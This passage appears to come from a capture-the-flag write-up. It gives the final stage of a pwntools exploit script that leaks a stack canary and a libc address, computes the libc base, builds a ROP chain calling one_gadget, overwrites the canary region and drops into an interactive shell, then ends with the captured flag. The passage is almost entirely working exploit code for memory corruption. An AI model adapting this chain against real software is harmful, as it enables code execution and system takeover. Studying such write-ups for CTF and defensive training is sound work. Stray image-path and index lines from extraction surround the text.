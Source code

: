 ```python
lock(r)

edit(r, name = PAYLOAD)

response = read(r)
leaked = response['date'].split('.')
canary = int(leaked[1][2:], 16)
libc_leak = int(leaked[2][2:], 16) # __libc_start_main + 231

log.success('Leaked canary value: 0x{:x}'.format(canary))
log.success('Leaked (__libc_start_main + 231): 0x{:x}'.format(libc_leak))

# Stage 2: Build Rop Chain (Call one_gadget)

libc.address = libc_leak - (libc.symbols['__libc_start_main'] + 231)
log.info('Calculated libc base address: 0x{:x}'.format(libc.address))

rop = ROP(libc)
rop.one_gadget()

log.success('Built ROP Chain (Call one_gadget)')
log.success(rop.dump())

# Stage 3: Pwn

edit(r, name = fit({CANARY_OFFSET: p64(canary), PAYLOAD_PADDING: rop.chain()}))

log.success('Sent payload')
log.progress('Spawning a shell...')

r.interactive()
```

Let's see it in action!

<script id="asciicast-329530" src="https://asciinema.org/a/329530.js" async></script>

Flag: `shkCTF{I_R34lly_l0ve_fr33_H0Ok_m4n}`


 [ Character index ]: 0
 [ Character index ]: 0